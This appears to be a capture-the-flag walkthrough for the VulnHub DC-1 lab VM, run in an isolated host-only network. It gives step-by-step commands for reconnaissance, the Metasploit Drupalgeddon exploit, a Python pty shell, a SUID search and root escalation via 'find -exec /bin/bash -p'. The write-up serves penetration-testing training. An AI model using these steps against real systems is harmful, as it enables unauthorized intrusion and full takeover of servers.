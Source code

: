 # DC: 1 Walkthrough

## Preparation
1. Download DC-1.ova file ([DC-1.ova](https://download.vulnhub.com/dc/DC-1.zip))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/dc-1-server_network.png)

1. Start the DC-1 virtual machine
    * Turn on the DC-1 virtual machine from the VirtualBox  
    ![StartDC-1](./img/dc-1-server_initial.png)  

1. Confirm the IP address of the DC-1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
    ![netdiscover](./img/dc-1_server1.png)  
    ![DC-1-IP-Address](./img/dc-1-server2.png)  
        * 192.168.56.100: DHCP Server
        * **192.168.56.104**: DC-1 Server

1. Set the DC-1 IP address to the environment variance  
    * `export IP=192.168.56.104`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/dc-1-server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-1 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 22, 80, and 111 ports.  

## Initial Access
1. Access the HTTP service using ParrotOS browser    
    * Enter `http://192.168.56.104:80`  
    ![HTTP-Access](./img/dc-1-server4.png)  

1. Confirm exisiting the "robots.txt file" 
    * Enter `http://192.168.56.104/robots.txt`  
    ![Robot-txt](./img/dc-1-server5.png)  
        - "Disallow": Deny crawler access  

1. Access "/MAINTAINERS.txt
    * It implies the service uses Drupal version 7  
    ![MAINTAINERS-txt](./img/dc-1-server6.png)  

1. Use droopescan (CMS vulnerability scanner)
    * Set the target URL to the environment variance  
    `export URL="http://$IP:80/`  
    * Scan using droopescan  
    ![droopescan](./img/dc-1-server7.png)
        - 5 plugins
        - 2 theme
        - Possible versions (7.22 - 7.26)
        - Possible interesting URL (/user/login)

1. Investigate Exploits for Drupal
    * Access to the [Exploit Database](https://www.exploit-db.com/)  
    * Search exploitations for the following keywords  
    `drupal 7 remote`  
    ![Remote-Exploit](./img/dc-1-server8.png)  
        - Memorize the "**Drupalgeddon**"

## Execution
1. Start Metasploit
    * Try to attack with "Drupalgeddon" vulnerability using Metasploit  
    Enter `msfconsole`   

1. Search vulnerability
    * Enter `search type:exploit drupal`  
    ![drupal-exploit](./img/dc-1-server9.png)
        - Note "drupageddon" because it is a vulnerability for versions 7.0 to 7.31  

1. Set exploit module
    * Enter `use exploit/multi/http/drupal_drupageddon`  
    * Set the option  
    ![set-option](./img/dc-1-server10.png)  
        - RHOSTS: 192.168.56.104 (DC-1 server)
        - RPORT: 80 (As default is 80, we do not need to set it)
        - TARGETURI: / (As default is /, we do not need to set it)
        - LHOST: 192.168.56.101 (ParrotOS machine's IP address)

1. Execute the exploit module
    * Enter `run`  
    ![Execute-exploit](./img/dc-1-server11.png)  
        - Success to enter the "/var/www" directory in the DC-1 server
        - Found the flag file of "flag1.txt"

## Credential Access for general user
1. Confirm the flag1.txt file
    * We confirm the next hint from the file  
    ![flag1](./img/dc-1-server12.png)

1. Take control of the interactive shell
    * Use the pyt module of Python  
    ![python-shell](./img/dc-1-server13.png)  
        - Enter `shell`
        - Enter `which python`
        - Enter `python -c 'import pty; pty.spawn("/bin/bash")'`

1. Investigate the home directory files
    * Find useful information  
    ![home-directory](./img/dc-1-server14.png)
        - Although ".bash_history" may have attack hints in the previous command histories, there is no permission for the general users
        - The "flag4.txt" file may also not be useful
        - Unfortunately, there are no useful information to the root

1. Investigate the SUID file
    * Searching the SUID file is a standard approach for server intrusion
    * `find / -perm -u=s -type f 2> /dev/null`  
    ![Search-SUID](./img/dc-1-server15.png)
        - `find /`: Begins the search from the root directory
        - `-perm -u=s`: Matches files with the SUID bit set for the user/owner
        - `-type f`: Limits results to regular files
        - `2> /dev/null`: Redirects error output to /dev/null, suppressing them from the console  

## Privilege Escalation
1. Utilize the find command
    * Example commands for stealing a shell using find command
        - `find . -exec /bin/sh -p \; quit`
    * As this time steal bash shell, enter the following command
    ![Use-find](./img/dc-1-server16.png)
        - Enter `which find`
        - Enter `/usr/bin/find . -exec /bin/bash -p \; -quit`
        - Return root prompt (#)

## Credential Access for root user
1. Open "thefinalflag" file
    * Move to "root" directory  
    * Access the "thefinalflag.txt"  
    ![final-flag](./img/dc-1-server17.png)
